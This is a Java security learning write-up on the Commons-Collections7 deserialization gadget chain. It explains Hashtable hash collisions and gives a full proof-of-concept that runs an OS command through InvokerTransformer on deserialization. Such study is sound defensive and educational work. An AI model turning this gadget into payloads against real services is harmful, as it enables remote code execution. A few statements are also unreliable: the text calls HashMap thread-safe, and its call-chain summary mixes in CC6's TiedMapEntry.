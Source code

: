 # Java Security Learning-Commons-Collections7 Chain

Author: H3rmesk1t

#Environmental construction
> 1. `JDK` version: JDK1.8u66
> 2. `Commons-Collections` version: 3.1

> Use `maven` to build it. First create a `Maven` project without selecting any `Maven` template. The content in `pom.xml` is as follows. Then select the update on the right and let it automatically import the package.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# Pre-knowledge
## Hashtable
> `Hashtable` is similar to `HashMap`, both are a hash table in the form of `key-value`

```java
[1] Hashtable thread-safe, HashMap thread-safe
[2] HashMap inherits AbstractMap, while Hashtable inherits Dictionary
[3] Both basically use the "array-linked list" structure, but HashMap introduces the implementation of red and black trees
[4] Hashtable's key-value is not allowed to be a null value, but HashMap is allowed, which will place the entity with key=null at index=0
```

> Follow up on `Hashtable` and found that in the `readObject` method, the `reconstitutionPut()` method will be called, and `key.hashCode()` method will be called in the `reconstitutionPut()` method. The subsequent calling logic is basically the same as the `CommonsCollections6` chain.

<img src="./images/23.png" alt="">

## Hash Collision Mechanism
> The statement given on [ProgrammerSought](https://www.programmersought.com/article/94401321514/) is

```
The so-called hash conflict, that is, the two key values ​​​​​are calculated by the hash function to obtain the same hash value, and a subscript can only store one key, which produces a hash conflict, if the subscript one of the keys first Saved, the other key must find its own storage location by other means.
```
> That is to say, when two different `keys` calculate the same `hash` value through the `hash()` method, and one subscript can only store one `key`, which creates a `hash` conflict

> So how to construct a `hash` conflict? Follow up on the `HashMap#hash` method

<img src="./images/27.png" alt="">

> Continue to follow up on the `hashcode()` method. According to the code in the `for` loop, it is not difficult to deduce the calculation formula for the `Hash` value.

<img src="./images/28.png" alt="">

<img src="./images/29.png" alt="">

> It is not difficult to explain why the `yy` and `zZ` chain in the `ysoserial` project is `yy` and `zZ`. When needed, use `z3` to calculate the possible values ​​when the number of string bits is different.

```python
ord("y") == 121
ord("z") == 122
ord("Z") == 90
"yy".hashCode() == 31 × 121 + 1 × 121 == 3872
"zZ".hashCode() == 31 × 122 + 1 × 90 == 3872
"yy".hashCode() == "zZ".hashCode() == 3872
```


# CommonsCollections7 Analysis
> In the `CommonsCollections` chain, use `AbstractMap#equals` to trigger the call to the `LazyMap#get` method. If the `m` is controllable, then set `m` to `LazyMap` to complete the subsequent chain construction.

<img src="./images/24.png" alt="">

> Continue to follow up and see where the call point of the `equals` method is. There is a call point in the `Hashtable#reconstitutionPut` method in the previous `Hashtable#reconstitutionPut` method: `e.key.equals(key)`. If the `key` here is controllable, the `m` above is controllable.

> Observe that the `key` passed in in the `readObject` method, correspondingly, then the value entered by `Hashtable#put` will also exist at the `writeObject`

<img src="./images/25.png" alt="">

> There is another point that needs to be noted here. Since the `if` statement uses `&&` connection to determine the condition, to execute the subsequent `e.key.equals(key)`, you must first satisfy `e.hash == hash`, and then call the `equals` method. Here we use the `Hash` conflict (`Hash` collision) mechanism

<img src="./images/26.png" alt="">

> Remove the element in the second LazyMap in `POC` because the get` method adds a new element to the current `map2` becomes two elements

<img src="./images/31.png" alt="">

## POC

```java
package CommonsCollections7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 6:40 pm
 */
public class CommonsCollections7Gadget {

    public static void CC7() throws NoSuchFieldException, IllegalAccessException {
        Transformer[] faketransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                ne
w InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        Class _class = chainedTransformer.getClass();
        Field field = _class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        map2.remove("yy");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(hashtable);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC7();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/30.png" alt="">

# Call chain

```java
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# Summarize
> The main idea is to use `Hashtable` instead of `HashMap` to trigger `LazyMap`, and the subsequent utilization is basically the same as the `HashMap` utilization method of `CommonsCollections6` chain.
